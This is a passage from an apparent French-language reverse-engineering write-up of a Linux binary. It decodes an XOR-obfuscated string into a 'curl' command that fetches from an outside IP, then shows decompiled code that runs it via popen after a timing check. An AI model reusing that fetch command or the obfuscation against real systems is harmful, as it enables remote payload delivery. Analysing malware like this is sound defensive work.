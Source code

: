 En examinant cette logique, il est aisé de détecter que le paramètre passé effectue un XOR avec la clé `w0rmh01e`. On peut noter une subtilité ici, car le programme va vérifier que l'opération XOR entre deux caractères ne produit pas 0x00. Si cela se produit, alors le caractère courant reste inchangé et est ajouté à la sortie. Développons un petit script Python pour réaliser le déchiffrement : 


```python
KEY = b"w0rmh01e"

command_parts : list[str] = []
command_parts.append("E421D4801724514")
command_parts.append("4A1E0A1819065857")
command_parts.append("541F05585C5C024F")
command_parts.append("E1E01585C5C0446")
command_parts.append("65551F5653401018")
command_parts.append("181C1F01")
command_parts.append("5C04")

# Integers aren't left padded, so do it here with string manipulation
command = b"".join([bytes.fromhex("0" + c if len(c) % 2 else c)[::-1] for c in command_parts])

result = []
for i, byte in enumerate(command):
    xor_result = byte ^ KEY[i % len(KEY)]
    if xor_result != 0x00:
        result.append(xor_result)
    else:
        result.append(byte)

print(bytearray(result))
```

Résultat : `bytearray(b'curl -sk http://82.105.114.101/ko 2>>/dev/null')`. Cette commande système semble être exécutée lorsque le temps d'exécution de la fonction `kill` sur le PID `9120` prend moins de trois secondes :

```c
time(&timer);
kill(9120, 0xF);
time(&time1);
if ( difftime(time1, timer) < 3.0 )
{
    sub_13E9(command);
    stream = popen(command, "r");
```

Par la suite, le résultat de cette commande semble être stocké dans un fichier : 

```c
fd = open("/var", 0x410002);
```

Gardons ces informations de côté, puis retournons dans la boucle principale pour examiner la deuxième fonction située en 0x1912 :

```c
void __noreturn sub_1912()
{
  int fd; // [rsp+0h] [rbp-8030h]
  char *i; // [rsp+8h] [rbp-8028h]
  ssize_t v2; // [rsp+10h] [rbp-8020h]
  char buf[16]; // [rsp+20h] [rbp-8010h] BYREF
  char v4; // [rsp+30h] [rbp-8000h] BYREF
  __int64 v5[512]; // [rsp+7030h] [rbp-1000h] BYREF

  while ( v5 != (__int64 *)&v4 )
    ;
  v5[0x1FF] = __readfsqword(0x28u);
  fd = inotify_init();
```